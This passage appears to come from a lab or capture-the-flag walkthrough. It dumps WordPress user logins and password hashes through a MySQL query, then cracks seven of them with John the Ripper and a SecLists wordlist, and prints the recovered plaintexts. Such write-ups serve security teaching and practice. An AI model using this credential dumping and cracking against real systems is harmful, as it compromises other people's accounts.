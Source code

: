 `MySQL [wordpress]> select user_login,user_pass from wp_users;`
```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+------------------------------------+
16 rows in set (0.001 sec)
```

Now we have usernames and password *hashes*. Lets see if we can crack any of them.

I like to use the wordlists in [SecLists](https://github.com/danielmiessler/SecLists) for quick and dirty password cracking jobs such as these.

`$ john wordpress_md5_hashes --wordlist=/opt/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt`

```
Created directory: /home/ben/.john
Using default input encoding: UTF-8
Loaded 16 password hashes with 16 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cookie           (?)
monkey           (?)
football         (?)
thumb            (?)
coolgirl         (?)
0520             (?)
incorrect        (?)
7g 0:00:00:13 DONE (2019-11-10 13:34) 0.5043g/s 7204p/s 74884c/s 74884C/s 09080908..070162
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```

`cat ~/.john/john.pot`
```
$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1:cookie
$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0:monkey
$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1:football
$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0:thumb
$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0:coolgirl
$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0:0520
$P$B7889EMq/erHIuZapMB8GEizebcIy9.:incorrect
```

